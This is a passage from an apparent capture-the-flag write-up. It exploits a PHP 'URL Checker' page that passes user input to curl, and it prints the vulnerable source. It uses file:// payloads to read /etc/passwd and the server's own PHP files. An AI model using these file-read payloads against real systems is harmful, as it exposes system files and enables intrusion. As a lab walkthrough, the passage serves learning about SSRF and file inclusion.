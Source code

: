 
We can only test local files. Let's try with the `index.php` file:


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_7.png)


Hmmm... It includes the webpage, we might think there is a file inclusion somewhere!

### LFI, RCE or SSRF?

Indeed, we can think of a Local File Inclusion, a Remote Command Execution or Server Side Request Forgery... But thanks to the output verbosity, we assume this script is using `curl`:


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_8.png)


Let's try to change the protocol used, something like `file://` instead of `http://`. If we don't miss the localhost condition, it should work:

> file://localhost/etc/passwd


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_9.png)


This application allows us to include arbitrary file, great. By the way, there is a user called __odie__ on the system. I will display the content of `test.php`, just to be clear about the vulnerability:

> file://localhost/var/www/html/test.php

```php
<?php 
include_once "config_test.php";
?>

<html>
<head>
	<title>Super curling</title>
</head>
<body>
	<form action="test.php" method="post">
		URL Checker - Beta: 
		<input type="text" name='url' />		
	</form>
<?php
if (isset($_POST['url'])&&!empty($_POST['url']))
{
		$url = $_POST['url'];
			$content_url = getUrlContent($url);
}
else
{
		$content_url = "";
}

if(isset($_GET['debug']))
{
		show_source(__FILE__);
}
?> 
</body>
</html>
```
